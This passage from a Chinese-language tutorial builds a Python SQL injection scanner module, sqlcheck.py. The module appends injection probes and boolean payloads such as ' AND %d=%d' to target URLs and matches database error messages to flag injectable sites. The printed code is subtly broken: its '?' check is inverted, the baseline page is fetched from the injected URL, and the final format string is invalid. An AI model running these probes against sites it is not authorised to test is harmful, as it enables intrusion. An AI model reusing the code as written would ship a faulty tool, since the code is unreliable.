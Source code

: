 ```python
```
这一句：
```python
content["origin"]==content["true"]!=content["false"]
```
意思就是当原始的网页等于正确的网页不等于错误的网页内容时就可以判定这个地址存在注入漏洞。

完整代码：
```python
import re,random
from lib.core import Download
def sqlcheck(url):
    if(not url.find("?")):
        return False
    Downloader = Download.Downloader()
    BOOLEAN_TESTS = (" AND %d=%d", " OR NOT (%d=%d)")
    DBMS_ERRORS = {# regular expressions used for DBMS recognition based on error message response
    "MySQL": (r"SQL syntax.*MySQL", r"Warning.*mysql_.*", r"valid MySQL result", r"MySqlClient\."),
    "PostgreSQL": (r"PostgreSQL.*ERROR", r"Warning.*\Wpg_.*", r"valid PostgreSQL result", r"Npgsql\."),
    "Microsoft SQL Server": (r"Driver.* SQL[\-\_\ ]*Server", r"OLE DB.* SQL Server", r"(\W|\A)SQL Server.*Driver", r"Warning.*mssql_.*", r"(\W|\A)SQL Server.*[0-9a-fA-F]{8}", r"(?s)Exception.*\WSystem\.Data\.SqlClient\.", r"(?s)Exception.*\WRoadhouse\.Cms\."),
    "Microsoft Access": (r"Microsoft Access Driver", r"JET Database Engine", r"Access Database Engine"),
    "Oracle": (r"\bORA-[0-9][0-9][0-9][0-9]", r"Oracle error", r"Oracle.*Driver", r"Warning.*\Woci_.*", r"Warning.*\Wora_.*"),
    "IBM DB2": (r"CLI Driver.*DB2", r"DB2 SQL error", r"\bdb2_\w+\("),
    "SQLite": (r"SQLite/JDBCDriver", r"SQLite.Exception", r"System.Data.SQLite.SQLiteException", r"Warning.*sqlite_.*", r"Warning.*SQLite3::", r"\[SQLITE_ERROR\]"),
    "Sybase": (r"(?i)Warning.*sybase.*", r"Sybase message", r"Sybase.*Server message.*"),
}
    _url = url + "%29%28%22%27"
    _content = Downloader.get(_url)
    for (dbms, regex) in ((dbms, regex) for dbms in DBMS_ERRORS for regex in DBMS_ERRORS[dbms]):
        if(re.search(regex,_content)):
            return True
    content = {}
    content["origin"] = Downloader.get(_url)
    for test_payload in BOOLEAN_TESTS:
        RANDINT = random.randint(1, 255)
        _url = url + test_payload%(RANDINT,RANDINT)
        content["true"] = Downloader.get(_url)
        _url = url + test_payload%(RANDINT,RANDINT+1)
        content["false"] = Downloader.get(_url)
        if content["origin"]==content["true"]!=content["false"]:
            return "sql fonud: %"%url
```
我们在`/script`目录中创建这个文件，命名为`sqlcheck.py`。
暂时我们可以把他作为一个模块单独的进行调用，等以后写完插件系统后可由插件系统自动的调用这些模块。 

有些url地址是我们不需要测试的，比如.html结尾的地址，我们可以过滤掉他们，这里我直接`find("?")`查找`?`来判断url是否符合我们的标准。
